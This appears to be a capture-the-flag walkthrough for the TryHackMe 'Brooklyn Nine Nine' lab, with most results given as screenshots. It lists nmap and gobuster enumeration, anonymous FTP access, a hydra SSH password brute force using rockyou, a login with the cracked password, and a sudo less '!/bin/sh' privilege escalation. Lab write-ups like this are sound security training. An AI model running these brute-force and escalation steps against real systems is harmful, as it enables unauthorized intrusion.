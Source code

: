 # Brooklyn Nine Nine

**Room Link:** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

anonymous login worked

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jake@$VICTIM
Password: 987654321
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

## **Privlege Escalation**

**Victim**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I tried to see if I could get any more info from the image but I never did.

**Kali**

```
exiftool brooklyn99.jpg 
steghide info brooklyn99.jpg
```

















